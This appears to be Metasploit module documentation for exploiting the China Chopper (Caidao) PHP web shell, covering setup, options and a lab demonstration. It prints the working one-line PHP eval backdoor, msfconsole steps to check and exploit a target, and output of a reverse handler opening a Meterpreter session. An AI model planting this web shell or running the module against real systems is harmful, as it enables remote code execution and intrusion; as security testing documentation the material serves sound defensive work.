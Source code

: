 China Chopper Caidao PHP Backdoor or simply [Chinese Caidao](https://www.fireeye.com/blog/threat-research/2013/08/breaking-down-the-china-chopper-web-shell-part-i.html) is a webshell manager coded in PHP.

## Vulnerable Application

Here is the PHP code of the backdoor that you can use and save it as caidao.php:

```
<?php @eval($_POST["chopper"]);?>
```

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/multi/http/caidao_php_backdoor_exec`
  4. Do: `set rport <port>`
  5. Do: `set rhost <ip>`
  6. Do: `check`
```
[+] 192.168.1.103:80 - The target is vulnerable.
```
  8. Do: `exploit`
  9. You should get a shell.

## Options

  **TARGETURI**

  TARGETURI by default is `/caidao.php`, which is the common filename of the backdoor.
  
  **PASSWORD**
  
  PASSWORD by default is `chopper`, which is the password of the backdoor.

## Demonstration

```
msf exploit(caidao_php_backdoor_exec) > exploit

[*] Started reverse handler on 192.168.1.108:4444 
[*] Sending stage (33068 bytes) to 192.168.1.103
[*] Meterpreter session 2 opened (192.168.1.108:4444 -> 192.168.1.103:42349) at 2015-11-02 09:05:54 +0000

meterpreter > sysinfo 
Computer    : kali
OS          : Linux kali 3.14-kali1-686-pae #1 SMP Debian 3.14.5-1kali1 (2014-06-07) i686
Meterpreter : php/php

```
